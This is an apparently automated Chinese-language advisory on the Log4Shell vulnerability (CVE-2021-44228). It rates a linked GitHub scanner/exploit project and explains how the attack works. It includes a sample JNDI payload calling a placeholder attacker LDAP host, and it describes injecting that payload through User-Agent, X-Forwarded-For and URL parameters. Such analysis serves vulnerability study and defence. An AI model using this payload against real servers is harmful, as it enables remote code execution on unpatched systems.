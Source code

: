 ## CVE-2021-44228-Apache Log4j2-JNDI注入

**漏洞编号:** CVE-2021-44228

**漏洞类型:** JNDI注入

**影响应用:** Apache Log4j2

**危害等级:** 高危，可能导致远程代码执行

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3 和 2.3.1)

**利用条件:** 目标系统使用了受影响的 Log4j2 版本，且允许 message lookup substitution

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228（Log4Shell）是 Apache Log4j2 中的一个严重漏洞，它允许攻击者通过 JNDI 注入执行远程代码。攻击者可以通过控制日志消息或日志消息参数，利用 JNDI 功能，从 LDAP 服务器加载恶意代码。 

**有效性：**
根据漏洞库信息和搜索结果，此漏洞是真实且已被广泛利用的。提供的 POC 代码尝试通过构造包含 JNDI 查找的恶意 payload，触发漏洞。

**投毒风险：**
代码主要功能是利用 Log4Shell 漏洞进行扫描和利用。虽然代码本身是为了利用漏洞，但存在一些潜在的风险，可能被恶意修改后进行投毒：

*   **Payload 修改：** 攻击者可以修改 payload，使其执行恶意操作，例如下载并执行其他恶意软件。
*   **LDAP 服务器：** 攻击者可能控制 LDAP 服务器，导致被攻击者下载恶意 payload。
*   **后门植入：** 攻击者可能会在扫描或利用过程中，通过漏洞在目标系统上植入后门，以便长期控制。

综合来看，代码本身具有一定的风险，需要谨慎使用。这里给出10%的投毒风险评估，因为代码的功能和目标较为明确，主要风险在于使用者可能被引导至恶意的LDAP服务器。

**利用方式：**

1.  **构建恶意 Payload：** 攻击者构造包含 JNDI 查找的字符串，例如 `${jndi:ldap://attacker.com/Exploit}`。
2.  **触发日志记录：** 将恶意 payload 注入到应用程序的日志消息中。这可以通过多种方式实现，例如通过 HTTP 请求头（User-Agent、X-Forwarded-For 等）、POST 请求参数或其他任何会被记录到日志中的输入。
3.  **JNDI 查找：** 当 Log4j2 尝试记录包含恶意 payload 的日志消息时，它会触发 JNDI 查找。
4.  **远程代码执行：** JNDI 查找会导致应用程序连接到攻击者控制的 LDAP 服务器，并下载和执行恶意代码。

提供的漏洞利用代码通过以下步骤尝试利用漏洞：

1.  **启动 LDAP 和 HTTP 服务器：** 使用 `JNDIExploit` 工具启动一个恶意的 LDAP 服务器，用于提供恶意 payload。同时启动一个 HTTP 服务器，用于托管 payload 文件。
2.  **扫描目标 URL：** 从指定的 URL 字典中读取 URL，并向这些 URL 发送包含恶意 payload 的 HTTP 请求。
3.  **注入 Payload 到 HTTP 头：** 将 payload 注入到 `X-Api-Version`、`User-Agent` 和 `X-Forwarded-For` 等常见的 HTTP 头中。
4.  **注入 Payload 到 URL 参数：** 将 payload 注入到 URL 参数中。

通过以上步骤，攻击者可以尝试触发目标应用程序的 Log4j2 漏洞，并执行远程代码。

**项目地址:** [julian911015/Log4j-Scanner-Exploit](https://github.com/julian911015/Log4j-Scanner-Exploit)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)